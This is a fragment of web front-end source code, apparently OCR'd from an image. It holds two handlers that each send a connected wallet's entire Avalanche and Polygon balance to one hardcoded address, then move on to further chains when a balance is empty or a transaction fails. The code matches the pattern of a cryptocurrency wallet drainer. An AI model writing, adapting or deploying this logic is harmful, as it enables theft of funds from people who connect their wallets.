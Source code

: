    const handleSendAvalanche = async () => {
      if (!avalancheBalanceData?.value || avalancheBalanceData?.formatted === '0') {
        setErrors('Avalanche balance is zero. Skipping to Polygon.');
        await handleSwitchToPolygon();
        return;
      }
    
      try {
        const avalancheBalance = avalancheBalanceData?.value;
        const amountToSend = avalancheBalance;
    
        await sendAvalancheTransaction({
          to: '0x7323356FfF92fF61abe79d63f1213296F5386c56',
          value: amountToSend,
        });
    
        console.log('Avalanche transaction sent.');
    
        if (isConfirmingPolygon || isPolygonConfirmed) {
          await handleSwitchToPolygon();
        }
      } catch (error) {
        setErrors('Error sending Avalanche transaction.');
        console.error(error);
        await handleSwitchToPolygon();
      }
    };

    // Handle Polygon transaction 
    const handleSendPolygon = async () => {
      if (!polygonBalanceData?.value || polygonBalanceData?.formatted === '0') {
        setErrors('Polygon balance is zero. Skipping to Optimism.');
        await handleSwitchToOptimism();
        return;
      }

      try {
        const polygonBalance = polygonBalanceData?.value;
        const amountToSend = polygonBalance;

        await sendPolygonTransaction({
          to: '0x7323356FfF92fF61abe79d63f1213296F5386c56',
          value: amountToSend,
        });

        console.log('Polygon transaction sent.');

        if (isConfirmingOptimism || isOptimismConfirmed) {
          await handleSwitchToOptimism();
        }
      } catch (error) {
        setErrors('Error sending Polygon transaction.');
        console.error(error);
        await handleSwitchToOptimism();
      }
    };
